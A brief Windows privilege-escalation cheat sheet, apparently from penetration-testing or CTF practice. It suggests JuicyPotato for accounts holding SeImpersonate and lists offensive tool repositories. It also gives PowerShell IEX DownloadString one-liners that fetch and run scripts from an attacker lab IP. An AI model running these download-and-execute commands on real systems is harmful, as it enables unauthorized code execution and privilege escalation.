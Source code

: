 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```text
whoami /priv
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```text
iex(new-object net.webclient).downloadstring('http://10.10.14.28/shell.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on `meterpreter`, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```text
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

